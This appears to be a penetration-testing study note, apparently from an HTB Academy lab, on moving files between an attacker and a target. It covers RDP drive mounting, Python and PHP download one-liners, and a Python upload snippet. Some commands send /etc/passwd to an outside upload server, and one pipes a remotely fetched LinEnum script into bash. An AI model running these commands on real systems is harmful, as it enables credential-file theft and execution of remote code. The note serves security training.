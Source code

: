 ## RDP

- `rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'` Mounting a Linux Folder Using rdesktop
- `xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer` Mounting a Linux Folder Using xfreerdp
- To access the directory, we can connect to \\tsclient\, allowing us to transfer files to and from the RDP session
- Alternatively, from Windows, the native [mstsc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/mstsc) remote desktop client can be used

## Transfering Files with code

### Python

- `python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'` python 2
- `python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'` python 3

#### Upload operations

- [Requests module](https://pypi.org/project/requests/)
- [urllib](https://docs.python.org/3/library/urllib.request.html)
- [Upload server module](https://github.com/Densaugeo/uploadserver)

- `python3 -m uploadserver` Starting the Python uploadserver Module
- `python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'` uploading a file

> Here are more details about the onliner to upload a file

```python
# To use the requests function, we need to import the module first.
import requests 
# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"
# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")
# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```

> Good advice by HTB Acsademy: We can do the same with any other programming language. A good practice is picking one and trying to build an upload program.

### PHP

- [File get contents module](https://www.php.net/manual/en/function.file-get-contents.php)
- [File put contents module](https://www.php.net/manual/en/function.file-put-contents.php)
- [fopen module](https://www.php.net/manual/en/function.fopen.php)
- `php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` PHP Download with File_get_contents()
- `php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'` PHP Download with Fopen()
- `php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash` PHP Download a File and Pipe it to Bash
